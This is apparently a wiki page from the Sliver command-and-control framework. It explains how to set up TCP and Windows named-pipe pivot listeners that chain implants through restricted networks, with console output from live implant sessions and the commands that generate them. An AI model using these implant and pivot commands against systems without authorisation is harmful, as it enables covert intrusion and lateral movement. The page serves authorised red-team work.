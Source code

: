 ⚠️ __IMPORTANT:__ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment. 

⚠️ __IMPORTANT:__ Pivots can only be used in "session mode" (we may add beacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](https://github.com/BishopFox/sliver/wiki/Transport-Encryption#implant-to-implant-key-exchange-pivots) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server; this restriction cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms. 

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener, where `192.168.1.1` is the local IP of the server on which we started the listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a name, remote clients are always allowed to connect to the pipe, but the default ACL will only allow the current user/group. You can allow all user/groups by using the `--allow-all` flag:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:09:20 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 192.168.1.1/pipe/foobar` note here we may need to specify the IP address of the listener: `192.168.1.1`. The syntax is `<host>/pipe/<pipe name>`, note that `.` is equivalent to `127.0.0.1`. This is just the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:15:11 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID         Name            Transport   Remote Address                         Hostname          Username                        Operating System   Last Check-In                   Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b   ROUND_ATELIER   pivot       192.168.1.178:59290->WARM_DRIVEWAY->   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
 a2615359   WARM_DRIVEWAY   mtls        192.168.1.178:59290                    WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
```

⚠️ __IMPORTANT:__ In some environments you may need to use the `--allow-all` flag when starting the pviot listener to allow all users/groups
